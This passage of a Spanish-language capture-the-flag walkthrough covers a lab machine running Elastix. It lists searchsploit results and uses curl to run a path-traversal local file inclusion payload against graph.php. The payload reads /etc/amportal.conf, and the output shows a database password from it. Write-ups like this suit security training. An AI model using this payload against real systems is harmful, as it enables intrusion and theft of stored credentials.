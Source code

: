 ![[http-basic-auth-cancel-redirect.png]]

### Searchsploit

Si usamos searchsploit para encontrar exploits en Elastix:

```shell
❯ searchsploit elastix
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulner | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion     | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                    | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                   | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Executi | php/webapps/18650.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Podemos ver una vista exploits, para acotar esto podemos usar la pista de la máquina, que dice LFI, o podemos leer cada exploit y confirmar si la vulnerabilidad existe, en este caso si leemos el exploit el siguiente exploit de perl:

```shell
❯ searchsploit -x php/webapps/37637.pl
```

Hay una línea que podemos usar para confirmar si este archivo existe:

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Podemos usar curl para confirmar que este archivo existe:

```shell
❯ curl -Isk https://10.10.10.7/vtigercrm/graph.php
HTTP/1.1 200 OK
Date: Wed, 22 Dec 2021 23:12:58 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Content-Type: text/html; charset=UTF-8
```

Podemos confirmar el POC con curl:

```shell
❯ curl -vsk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
*   Trying 10.10.10.7:443...
* Connected to 10.10.10.7 (10.10.10.7) port 443 (#0)
<..SNIP..>
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
<..SNIP..>
```

